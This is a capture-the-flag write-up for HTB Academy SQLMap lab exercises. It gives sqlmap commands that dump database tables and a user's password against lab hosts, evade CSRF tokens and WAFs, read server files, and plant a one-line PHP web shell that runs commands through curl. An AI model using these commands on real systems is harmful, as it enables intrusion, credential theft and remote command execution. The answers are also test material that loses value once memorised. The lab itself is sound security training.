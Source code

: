 # [HTB_Academy] SQLMap Essentials


## Running SQLMap on an HTTP Request

>**Q. What's the contents of table flag2? (Case #2)**
```bash
sqlmap 'http://94.237.62.6:47094/case2.php' --data 'id=1' --batch --dump
```
>**Q. What's the contents of table flag3? (Case #3)**
```bash
sqlmap -u "http://94.237.62.6:47094/case3.php" --cookie='id=1*' --batch --dump
```
>**Q. What's the contents of table flag4? (Case #4)**
```xml
<?xml version="1.0"?>
<!DOCTYPE items [
<!ELEMENT items (item*)>
<!ATTLIST items burpVersion CDATA "">
<!ATTLIST items exportTime CDATA "">
<!ELEMENT item (time, url, host, port, protocol, method, path, extension, reque>
<!ELEMENT time (#PCDATA)>
<!ELEMENT url (#PCDATA)>
<!ELEMENT host (#PCDATA)>
<!ATTLIST host ip CDATA "">
<!ELEMENT port (#PCDATA)>
<!ELEMENT protocol (#PCDATA)>
<!ELEMENT method (#PCDATA)>
<!ELEMENT path (#PCDATA)>
<!ELEMENT extension (#PCDATA)>
<!ELEMENT request (#PCDATA)>
<!ATTLIST request base64 (true|false) "false">
<!ELEMENT status (#PCDATA)>
<!ELEMENT responselength (#PCDATA)>
<!ELEMENT mimetype (#PCDATA)>
<!ELEMENT response (#PCDATA)>
<!ATTLIST response base64 (true|false) "false">
<!ELEMENT comment (#PCDATA)>
]>
<items burpVersion="2023.1.2" exportTime="Fri Jul 14 10:53:44 CEST 2023">
  <item>
    <time>Fri Jul 14 10:52:04 CEST 2023</time>
    <url><![CDATA[http://94.237.62.6:47094/case4.php]]></url>
    <host ip="94.237.62.6">94.237.62.6</host>
    <port>47094</port>
    <protocol>http</protocol>
    <method><![CDATA[POST]]></method>
    <path><![CDATA[/case4.php]]></path>
    <extension>php</extension>
    <request base64="true"><![CDATA[UE9TVCAvY2FzZTQucGhwIEhUVFAvMS4xDQpIb3N0OiA>
    <status>200</status>
    <responselength>455</responselength>
    <mimetype>HTML</mimetype>
    <response base64="true"><![CDATA[SFRUUC8xLjEgMjAwIE9LDQpEYXRlOiBGcmksIDE0IE>
    <comment></comment>
  </item>
</items>
```

```bash
sqlmap -r case4.txt -p id --dump
```

## Attack Tuning

>**Q. What's the contents of table flag5? (Case #5)**

```bash
sqlmap 'http://94.237.62.6:47094/case5.php?id=1' --batch --dump -T flag5 --no-cast --level=5 --risk=3
```

>**Q. What's the contents of table flag6? (Case #6)**

```bash
sqlmap 'http://94.237.62.6:47094/case6.php?col=id' --prefix='`)' -p col --batch --dump -T flag6 --no-cast --level=5 --risk=3
```

>**Q. What's the contents of table flag7? (Case #7)**

```bash
sqlmap 'http://94.237.62.6:47094/case7.php?id=1' --batch --dump -T flag7 --no-cast --union-cols=5
```

## Database Enumeration

>**Q. What's the contents of table flag1 in the testdb database? (Case #1)**

```bash
sqlmap 'http://94.237.62.6:47094/case1.php?id=1' -p id -D testdb --tables
sqlmap 'http://94.237.62.6:47094/case1.php?id=1' -p id -D testdb -T flag1 --dump
```

## Advanced Database Enumeration

>**Q. What's the name of the column containing "style" in it's name? (Case #1)**

```bash
sqlmap 'http://94.237.62.6:47094/case1.php?id=1' --search -C "style"
```

>**Q. What's the Kimberly user's password? (Case #1)**

```bash
sqlmap 'http://94.237.62.6:47094/case1.php?id=1' --dump -D testdb -T users -C name,password --no-cast
```

## Bypassing Web Application Protections

>**Q. What's the contents of table flag8? (Case #8)**

```bash
sqlmap -u "http://94.237.62.6:47094/case8.php" --data="id=1&t0ken=H9AemyR5JmWEZHQhjzVoyE3Q6gc9VMkaezSfg6qIEs" --csrf-token="t0ken" --batch --dump -T flag8
```
 
>**Q. What's the contents of table flag9? (Case #9)**

```bash
sqlmap -u "http://94.237.62.6:47094/case9.php?id=1&uid=1898023378" --randomize=uid --batch --dump -T flag9
```

>**Q. What's the contents of table flag10? (Case #10)**

```bash
sqlmap -u "http://94.237.62.6:47094/case10.php" --data="id=1" --batch --dump -T flag10 --random-agent
```

>**Q. What's the contents of table flag11? (Case #11)**

```bash
sqlmap -u "http://94.237.62.6:47094/case11.php?id=1" --skip-waf --batch --dump -T flag11 --tamper=between
```

## OS Exploitation

>**Q. Try to use SQLMap to read the file "/var/www/html/flag.txt".**

```bash
sqlmap -u "http://94.237.62.37:45885/?id=1" --file-read "/var/www/html/flag.txt"
cat /home/marcos/.local/share/sqlmap/output/94.237.62.37/files/_var_www_html_flag.txt
```

>**Q. Use SQLMap to get an interactive OS shell on the remote host and try to find another flag within the host.**

```bash
sudo nano shell.php  
```

```php
echo '<?php system($_GET["cmd"]); ?>'
```

```bash
sudo chmod +x shell.php
sqlmap -u "http://94.237.62.37:45885/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
curl http://94.237.62.37:45885/shell.php?cmd=cat+../../../flag.txt
```

## Skills Assessment

>**Q. What's the contents of table final_flag?**

```bash
sqlmap -r final.txt --batch --dump --no-cast --tamper=between --dbs
sqlmap -r final.txt --batch --dump --no-cast --tamper=between --dbs -D production -T final_flag
```
